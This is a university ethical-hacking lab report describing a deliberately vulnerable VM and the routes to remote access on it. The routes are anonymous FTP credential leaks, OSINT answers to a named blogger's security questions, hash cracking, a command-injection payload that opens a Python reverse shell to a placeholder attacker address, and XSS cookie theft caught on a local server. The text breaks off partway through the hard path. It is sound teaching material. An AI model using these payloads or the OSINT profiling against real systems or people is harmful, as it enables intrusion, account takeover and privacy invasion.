<center>
<h1>
Ethical Hacking Lab Assignment
</h1>
 
Virtual machine design and report<br/>
<b>
Group <code>0xe</code> - Salvatore Busiello, Nicholas Montana, Alex Parri
</b><br/>
<i>vC0rp Virtual Machine</i>
</center>

---

This is a report for the Ethical Hacking course directed by Daniele Friolo and Davide Guerri of the Academic Year 23/24 at Sapienza University of Rome.

We were instructed to design a virtual machine (VM) containing deliberate vulnerabilities and to create a written report documenting the machine itself and three different paths to obtain remote access and finally escalate privileges to root user.

<h1>Table of contents</h1>

- [Machine specifications](#machine-specifications)
  - [Context](#context)
  - [Machine overview](#machine-overview)
- [Obtaining remote access](#obtaining-remote-access)
  - [🟢 Easy path](#-easy-path)
  - [🟠 Medium path](#-medium-path)
    - [Exploit](#exploit)
  - [🔴 Hard path](#-hard-path)
    - [Exploit](#exploit-1)
- [Privilege escalation](#privilege-escalation)
  - [🟢 Easy path](#-easy-path-1)
  - [🟠 Medium path](#-medium-path-1)
  - [🔴 Hard path](#-hard-path-1)
- [How it's made - Machine](#how-its-made---machine)

# Machine specifications
## Context
vC0rp presents itself as a company that cares about veganism and the environment. They run a popular blog called "The Green Crusaders" that talks about being vegan and saving the planet.

But here's the twist: secretly, vC0rp is involved in something shady. Behind the scenes, they're actually a big part of the illegal meat trade. While they preach about being kind to animals and the environment, they're making money from selling meat on the black market.

In their offices, top bosses are always coming up with sneaky plans to keep their illegal business going. They bend the rules and bribe people to stay under the radar. It's a two-faced operation – they say one thing in public but do the opposite in private.

As their secret starts to leak out, vC0rp finds itself in big trouble. Will they be exposed for their lies, or will they keep getting away with their deceitful actions?

## Machine overview
The machine runs an `nginx` web server that hosts The Green Crusaders blog. This blog presents vulnerabilities such as cross site scripting, command injection and other poor security policies that can be exploited by an attacker to gain remote access. 

There are users registered on the blog, being:
- **Fabiola Di Sotto** aka vegmamy, blog author
- **Giorgio Immesi** aka ilveganoimbruttito, blog author
- **Matteo Ricci**, a member of the staff, is currently organizing a protest.
  
The machine also runs an `ftp` server which contains an interesting sql backup. 

Behind the scenes, the server runs another web server hosting an *hidden* web service for the trade of meat. This web service is placed inside docker for security reasons and is **not an easy target**. 

There are also some command line interface programs in the server's file system used internally by the staff to trade meat. This program presents some vulnerabilities that can also be exploited to gain privileged access.

Below is shown a diagram of the machine with all the services running and a brief description on how to attack them:



# Obtaining remote access
First things first, when a penetration tester has a machine, the first thing they should do is scanning, therefore we run a quick and easy `nmap` towards the machine itself
```sh
$ nmap -sS -O <machine_ip>
```
Which would output the following
```sh
Starting Nmap 7.93 ( https://nmap.org ) at 2024-04-29 12:38 CEST
Nmap scan report for <machine_ip>
Host is up (0.00019s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:C0:9D:59 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.4
OS details: Linux 5.4
Network Distance: 1 hop

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.12 seconds
```
Now we have every single ingredient for our remote access adventure, of which we were instructed to provide three different paths.

## 🟢 Easy path
From the scanning, we can notice that there is an ftp server running. We should also notice by probing the authentication mechanism of the ftp server that it allows anonymous authentication. The landing directory will contain two files called `leavemehere.txt`, which contains some information for the login page, and the `sql_backup.zip` that contains the user table backup of the vegan blog. 

We have to download the backup and read the clear-text credentials from it to login. In this backup there is only one user currently active in the blog and is Matteo Ricci. We can now login as Matteo Ricci, a not so expert staff member of vC0rp. He is currently organizing a protest and published the private key of the server! This private key can be used to login with ssh on the machine.

## 🟠 Medium path 

As previously said, vC0rp runs a popular blog, "The Green Crusaders", which can be accessed at `/blog` 


The blog will contain articles centered around veganism and such. We can see that there are two main authors:
1. Fabiola di Sotto
2. Giorgio Immesi
   
Let’s inform ourselves about veganism a little more by checking any blog post, for instance:
```sh
/blog/compassionate-future-rethinking-relationship-food-nature
```
Which will look like so:


Let’s click onto the name of the author itself, in this case Giorgio Immesi, which will lead to the following page:
```sh
/blog/author/ilveganoimbruttito
```
So far, we’ve understood that his username is `ilveganoimbruttito` he is a post author. Now we could try to ask for a password reset, using above username, which will succeed in Step 1.

Then, as Step 2, we will get asked 3 security questions… which we will have to answer all:
1. `Which year have you become vegan?`
2. `Which day were you born?`
3. `In which town have you attended elementary school?`

Well, we can try googling Giorgio Immesi, and from a very quick search we can notice that he is a famous Italian vegan blogger and activist... who owns
- An instagram account
- A YouTube account
- A TikTok account
  
Famous people usually tend to leave *too much* information about their life online… will this be their demise in this case?

Indeed, because we can answer all three questions with a little bit of **OSINT** work: 
1. [‘PERCHE' SONO VEGANO : Tutta la VERITA' - Video di Giorgio Immesi’](https://www.youtube.com/watch?v=EXITzZ9L5xI&t=440s) - Answer: `2015`
2. [‘TUTTA la MIA VITA in 8 MINUTI - Vlog di Giorgio Immesi’](https://www.youtube.com/watch?v=IuCCZJRuq2M&t=45s) - Answer: `10th December`
3. [‘TUTTA la MIA VITA in 8 MINUTI - Vlog di Giorgio Immesi’](https://www.youtube.com/watch?v=IuCCZJRuq2M&t=159s) - Answer: `Santilario`

By inputting the above answers, we will get output the hash of the password, which is the following string
```sh
78b831bcd471476ccc79bb5d1b3762ba95980454985d074841fcef2dd127cc46
```
Which is sent to the following email address:
```sh
ilveganoimbruttito@greencrusaders.0xe
```
Now we check which kind of algorithm output the above hash, which can be done with any online or offline tool, in this case we can use `hash-identifier` in the following way:
```sh
$ hash-identifier 78b831bcd471476ccc79bb5d1b3762ba95980454985d074841fcef2dd127cc46
```
We will get told that the most probable candidate is SHA256, which is pretty secure… right?


You never know until you try it, we can try to crack it by using any password cracking tool like **JohnTheRipper** or **hashcat**, in this case we will use the Ripper, while using the `rockyou` wordlist:
```sh
$ echo "78b831bcd471476ccc79bb5d1b3762ba95980454985d074841fcef2dd127cc46" > crack.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt.gz crack.txt 
```
Bingo!



We can now try logging in using the just cracked password and the above login:
```
ilveganoimbruttito@greencrusaders.0xe
4everlove
```
And we’re in as blog author!

**Note**: the same could be done with blog author ‘Fabiola di Sotto’, whose username is `vegmamy`. In her case, everything is available on her Instagram account.

### Exploit
Once entered as author of the blog, from the bottom of the profile page of the user we can access the `/YWRtaW4K/dashboard` which displays info on the posts of the user. 



From the site’s dashboard on the right, the author can search for the active users of the blog, which seems legit… or is it?

Not at all: the search form is vulnerable to `command injection`, which we can easily check by writing
```sh
"; ls #
```
There seems not to be any kind of filtering applied to it, after all, we are trusted authors! 



Therefore, we get a reverse shell from it by injecting the following bash command
```sh
"; python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("your.attacker.ip.address",attacker_port));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")' # 
```
## 🔴 Hard path
To exploit the hard path we have to take the same steps of the medium path, so we have to be logged in as an author of the blog (any). As an author of the blog, we can publish posts from the `/YWRtaW4K/new-article` page



However, we don’t have complete control over what we post, as upon pressing ‘post article’, our post will have to be checked by an administrator for approval… boring!


After a **painful** wait, we will have our post published. Hooray…? Indeed, because when it comes to posts and possible vulnerabilities, the first one that will come into our mind is cross site scripting.



### Exploit

The post submission process does not check and validate user input automatically so cross site scripting is possible which we can double check that by posting a post with the following input

```js

```
Therefore, we can try getting the admin cookie by inputting
```js 

```
and catching the response with a simple trusty Python server through command line
```sh
python3 -m http.server
```
Let's wait for the “admin” to check our post. When he opens our post he will trigger the `cross site scripting` payload. We will then obtain the following result in our python server:
```sh
::ffff:127.0.0.1 - - [23/Apr/2024 19:19:05] "GET /?userData=fc7fcd0dfff43f12ea176c886e9a6e98d2dc4645bc09f009bfcc78390947eb6c641dace3d9a2c6d9539b75ff2a9cb809f8a493e88a9a45b62ac52179a6b323c789c8fde69a7bea3c4ede6aeb71fa183f3ff0e5ef78d45f68c2b1dfcd2d0e7602f23c7990c61a5d1e6ac7da58383a1292d025411d159f89e28e64845f1c4bc64d5d9a0ee6dc44e267d0ae1e87d751506e8489c8ae420563bcf451fb52ebc99805 HTTP/1.1" 200 -
::ffff:127.0.0.1 - - [23/Apr/2024 19:19:35] "GET /?userData=71c2e52a10d556e4a059a0dbfb8052db01e6c6dbff383879211163d6a748da4dddcb4a39ceb761cd05402fefa6d71ec5fc2ad619da1097599b946b172b023854288cb087e15e2ecd1c8ec41e0437a4c037e4edb3e1085ba9c97efc35c4c09afc4ae64fd0fbd3a93f0435871fce25cc1ef3a1db3ec484eaafed077fe59e3d268e470d8bd38f495f73cc5db152701e2242a94bd8e55e08535ec1654510f00f5644b8717c9c811f0f280604d1b15f9dd4b4 HTTP/1.1" 200 -
```


Now that we have the admin cookie in our hands, we can now login as the admin!

After we logged in as the admin we can access the admin panel. 


From here we can organize a vegan protest. The form to submit a protest asks for an image of the protest. 


If we submit a valid (or invalid) flyer for the protest, we will obtain a badge that notify for a legit or non legit image.



The file uploaded is checked for it to be an image. This check is done by an API that checks the filename of the image using a bash script. 



If we interrogate this API with the OPTIONS method of HTTP we discover the methods accepted by the API:

